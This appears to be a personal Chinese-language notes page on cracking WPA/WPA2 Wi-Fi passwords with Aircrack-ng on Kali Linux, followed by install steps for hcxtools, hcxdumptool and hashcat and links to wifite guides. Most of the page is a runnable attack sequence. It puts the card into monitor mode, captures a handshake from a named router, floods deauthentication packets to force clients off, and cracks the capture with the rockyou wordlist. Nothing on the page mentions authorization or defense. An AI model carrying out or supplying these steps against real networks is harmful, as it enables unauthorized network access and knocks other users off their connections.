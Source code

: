 #### airmon-ng
[Word Dictionary](https://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html)
[Aircrack-ng套件——無線破解原理及工具詳解](https://www.796t.com/content/1543852627.html)
```
ifconfig   #check wifi interface
sudo -i
airmon-ng start wlan0  //wlan0為前面查到的網絡卡名稱
airodump-ng wlan0mon   # 等待有人登入
# airodump-ng -c <通道> --bssid <路由ID> -w <儲存抓包的目錄名稱> <網絡卡名稱>
airodump-ng -c 3 --bssid D4:EE:07:39:F5:DE -w /root/桌面 wlan0mon
# .洪水攻擊，強制打掉重連
# aireplay-ng -0 0 -a <bssid路由ID> -c <連線wifi的mac IP> <網絡卡名>
aireplay-ng -0 0 -a D4:EE:07:39:F5:DE -c D8:5D:E2:96:AB:EB wlan0mon
#.停止攻擊
#ctrl + c當終端右上方出現：WPA握手：D8：5D：22：96：AB字樣則說明抓包完成，停止攻擊
#抓包完成可關閉監聽模式：root @ kali：〜＃airmon- ng stop wlan0mon（網絡卡名）
airmon-ng stop wlan0mon(網絡卡名)
aircrack-ng -w /usr/share/wordlists/rockyou.txt /root/桌面-1.cap
#// - a2引數：<代表WPA握手包>，可新增至命令執行
#// - w引數：指定字典檔案路徑，rockyou.txt為kali自帶字典，使用前須先解壓：
#root @ kali：〜＃gzip -d /usr/share/wordlists/rockyou.txt.gz
```
```
Aircrack- ng是評估WiFi網路安全性的一整套工具。

- Aircrack-ng無線密碼破解
- Aireplay-ng流量生成和客戶端認證
- Airodump-ng資料包捕獲
- Airbase-ng虛假接入點配置

它側重於無線網路安全的不同領域：

監控：資料包捕獲和資料匯出到文字檔案，以供工具第三方進一步處理
攻擊：通過資料包注入重播攻擊，解除身份驗證，虛假接入點等
測試：檢查無線網路卡和驅動程式功能（捕獲和注入）
破解：WEP和WPA PSK（WPA 1和2）
```
#### [Kali下用wifite破解WIFI](https://www.twblogs.net/a/5c543824bd9eee06ef364074)
#### 下載 hcxdumptool 
```
apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
git clone https://github.com/ZerBea/hcxtools
cd hcxtools
make
make install
```
#### 下載 hcxdumptool v4.2.0或更高版本
```
git clone https://github.com/ZerBea/hcxdumptool
cd hcxdumptool
make
make install
```
#### 下載 hashcat v4.2.0或更高版本
```
wget https://hashcat.net/files/hashcat-4.2.1.7z
7z x hashcat-4.2.1.7z
```
#### wifite 指令
#### [Wifite+hashcat破解WPA2 Wi-Fi密码](https://www.shenjc.net/2020/07/19/200711_kali_linux_wifi/)
```
```